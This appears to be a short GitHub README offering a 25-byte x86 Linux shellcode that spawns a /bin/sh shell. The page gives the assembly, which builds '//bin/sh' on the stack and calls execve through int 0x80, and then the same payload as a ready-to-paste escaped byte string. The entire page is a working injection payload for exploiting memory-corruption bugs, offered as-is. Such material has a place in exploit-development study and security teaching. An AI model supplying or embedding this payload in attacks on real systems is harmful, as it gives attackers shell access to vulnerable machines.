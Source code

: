 'sh' shell shellcode
====

# x86 version

<pre>
xor    eax,eax
push   eax
mov    edx,esp
push   0x68732f6e
push   0x69622f2f
mov    ebx,esp
push   eax
push   ebx
mov    ecx,esp
mov    al,0xb
int    0x80
</pre>

Read the asm file for the commented version

Shellcode

<pre>
"\x31\xc0\x50\x89\xe2\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
</pre>

Length : 25 bytes